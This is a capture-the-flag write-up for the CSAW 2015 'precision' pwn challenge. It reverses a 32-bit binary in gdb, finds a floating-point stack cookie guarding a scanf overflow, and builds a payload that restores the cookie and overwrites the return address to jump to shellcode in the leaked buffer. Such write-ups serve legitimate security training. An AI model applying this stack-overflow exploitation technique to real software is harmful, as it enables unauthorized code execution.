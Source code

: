 ```yaml
---
layout: post
title: CSAW15 PWN 100
tags: [ctf, pwn, write-up, csaw15, canary, bof]
---
```


### Challenge: [precision](../ctfs/csaw15/pwn/precision-100/precision_a8f6f0590c177948fe06c76a1831e650)

### Reversing
I start by doing a quick `file` and `checksec`
```bash
$ file ./precision
precision: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped
$ checksec ./precision
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
I can see from the results of `checksec` that this 32-bit binary doesnt have any protections enabled. I run it once to see whats the binary doing.
```bash
$ ./precision
Buff: 0xffb40f28
AAAA
Got AAAA
```
When running the binary, it prints address of a buffer then it takes input. After sending input "AAAA\n", input gets printed back on the console and process terminates.
Considering we are dealing with a string echo here. I tried providing "%x\n" in the input.
```bash
$ ./precision
Buff: 0xffb40f28
%x
Got %x
```
So no format string vulnerability here. Then for the last black box test I provided a large string as input.
```bash
$ python -c 'print "A"*2000' | ./precision
Buff: 0xffa02b18
Nope
```
It didnt work either. Time to start real reversing.
Now opening binary in IDA makes it a little too easy so I will do it with gdb-peda `pdisass` to make it interesting.
```bash
gdb-peda$ pdisass main
Dump of assembler code for function main:
   0x0804851d <+0>:	push   ebp
   0x0804851e <+1>:	mov    ebp,esp
   0x08048520 <+3>:	and    esp,0xfffffff0
   0x08048523 <+6>:	sub    esp,0xa0
   0x08048529 <+12>:	fld    QWORD PTR ds:0x8048690
   0x0804852f <+18>:	fstp   QWORD PTR [esp+0x98] # cookie
   0x08048536 <+25>:	mov    eax,ds:0x804a040
   0x0804853b <+30>:	mov    DWORD PTR [esp+0xc],0x0
   0x08048543 <+38>:	mov    DWORD PTR [esp+0x8],0x2
   0x0804854b <+46>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048553 <+54>:	mov    DWORD PTR [esp],eax
   0x08048556 <+57>:	call   0x8048400 <setvbuf@plt>
   0x0804855b <+62>:	lea    eax,[esp+0x18] # Buff
   0x0804855f <+66>:	mov    DWORD PTR [esp+0x4],eax
   0x08048563 <+70>:	mov    DWORD PTR [esp],0x8048678
   0x0804856a <+77>:	call   0x80483b0 <printf@plt>
   0x0804856f <+82>:	lea    eax,[esp+0x18]
   0x08048573 <+86>:	mov    DWORD PTR [esp+0x4],eax
   0x08048577 <+90>:	mov    DWORD PTR [esp],0x8048682
   0x0804857e <+97>:	call   0x8048410 <__isoc99_scanf@plt>
   0x08048583 <+102>:	fld    QWORD PTR [esp+0x98]
   0x0804858a <+109>:	fld    QWORD PTR ds:0x8048690
   0x08048590 <+115>:	fucomip st,st(1)
   0x08048592 <+117>:	fstp   st(0)
   0x08048594 <+119>:	jp     0x80485a9 <main+140>
   0x08048596 <+121>:	fld    QWORD PTR [esp+0x98]
   0x0804859d <+128>:	fld    QWORD PTR ds:0x8048690
   0x080485a3 <+134>:	fucomip st,st(1)
   0x080485a5 <+136>:	fstp   st(0)
   0x080485a7 <+138>:	je     0x80485c1 <main+164>
   0x080485a9 <+140>:	mov    DWORD PTR [esp],0x8048685
   0x080485b0 <+147>:	call   0x80483c0 <puts@plt>
   0x080485b5 <+152>:	mov    DWORD PTR [esp],0x1
   0x080485bc <+159>:	call   0x80483e0 <exit@plt>
   0x080485c1 <+164>:	mov    eax,ds:0x804a030
   0x080485c6 <+169>:	lea    edx,[esp+0x18]
   0x080485ca <+173>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ce <+177>:	mov    DWORD PTR [esp],eax
   0x080485d1 <+180>:	call   0x80483b0 <printf@plt>
   0x080485d6 <+185>:	leave  
   0x080485d7 <+186>:	ret    
End of assembler dump.
gdb-peda$ 
```
After the function prologue I can see some interesting instructions (fld, fstp). These instructions are used for handling floating point values. In a summary we can say that it takes a floating point value from ds:0x8048690 and puts it in a local variable ([esp+0x98]). After this `stdout` is cleared from a typical `setvbuf` call. "Buff: 0xXXXXXXXX" gets printed on the console and `__isoc99_scanf` starts waiting for the input. Then it compares the value in local variable ([esp+0x98]) to ds:0x8048690 and it both values are not same it prints "Nope" and exits. But if the values are the same then it prints "Got *string_input*" and main returns. So clearly this custom logic is placed to have a check for buffer overflow vulnerable `__isoc99_scanf` function.

### Exploitation
To exploit buffer overflow in `__isoc99_scanf`, I first have to bypass custom stack cookie logic in place. For this I can just look up the 8 bytes (floating point values are represented by 8 bytes in memory) value on ds:0x8048690 and while overflowing the local variable (stack cookie) provide the same value.
```bash
gdb-peda$ x/gx 0x8048690
0x8048690:	0x40501555475a31a5
```
Now we can craft our simple stack based overflow payload. Offset between our Buff and cookie local variable is 0x80.

`"A"*0x80 + "\xa5\x31\x5a\x47" + "\x55\x15\x50\x40"`
I can add cyclic pattern from *gdb-peda* in above payload to determine offset to return address on stack, that is 12 here.
`"A"*0x80 + "\xa5\x31\x5a\x47" + "\x55\x15\x50\x40" + "B"*12 + "XXXX"`
Here I can replace return address "XXXX" to address of our input buffer (Buff) provided when running the binary. And start of the payload buffer have be converted into a shellcode that will give us a shell.
This pwntools [script](../ctfs/csaw15/pwn/precision-100/sploit.py) will be doing all thing automated for us.
